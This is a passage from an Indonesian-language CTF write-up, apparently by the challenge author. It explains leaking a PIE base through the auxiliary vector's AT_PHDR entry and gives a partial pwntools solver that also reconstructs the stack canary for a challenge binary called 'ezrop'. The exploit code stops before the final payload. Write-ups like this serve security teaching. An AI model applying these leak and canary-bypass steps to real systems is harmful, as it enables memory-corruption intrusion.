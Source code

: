 dengan begitu, hanya dengan leak pie offset melalui `AT_PHDR` (auxv 3), seharusnya sudah dapat mengontrol value saved RIP melalui key-val system ini. btw, dari semua write-up yang dikirim ke panitia, sepertinya tidak ada satu pun tim yang menyadari keberadaan aux vector disini, sad. Full solver,

```py
#!/usr/bin/env python
from pwn import *

# context.terminal = ['tmux', 'split-window', '-h']
context.log_level = ['debug', 'info', 'warn'][1]

BINARY = './challenge/ezrop'
HOST = "not.codepwnda.id"
PORT = 30000

r = tube; elf = ELF; libc = ELF

def find_canary():
    tmp = 15

    for _ in range(4):
        r.sendlineafter(': ', str(tmp))
        r.recvuntil(' = ')
        tmp = int(r.recvline(0), 16)
        r.sendlineafter(': ', 'n')
        r.sendlineafter(': ', 'n')

    r.sendlineafter(': ', str(tmp))
    r.recvuntil(' = ')
    tmp = int(r.recvline(0), 16)
    r.sendlineafter(': ', 'n')
    r.sendlineafter(': ', 'n')

    canary = tmp & 0xFFFFFFFFFFFF0000
    canary >>= 8

    r.sendlineafter(': ', str(tmp))
    r.recvuntil(' = ')
    tmp = int(r.recvline(0), 16)
    r.sendlineafter(': ', 'n')
    r.sendlineafter(': ', 'n')

    canary |= (tmp & 0xFF) << 56
    return canary


def exploit(REMOTE):

    r.sendlineafter(': ', '3')
    r.recvuntil(' = ')
    at_phdr = int(r.recvline(0), 16)
    r.sendlineafter(': ', 'n')
    r.sendlineafter(': ', 'n')

    elf.address = at_phdr - 0x40

    info('AT_PHDR %X' % (at_phdr))
    info('PIE_BASE %X' % (elf.address))

    if not REMOTE: gdb.attach(r, 'b *{}'.format(elf.address + 0xd40))
    canary = find_canary()
    info('CANARY %X' % (canary))

    r.sendlineafter(': ', str(canary))
```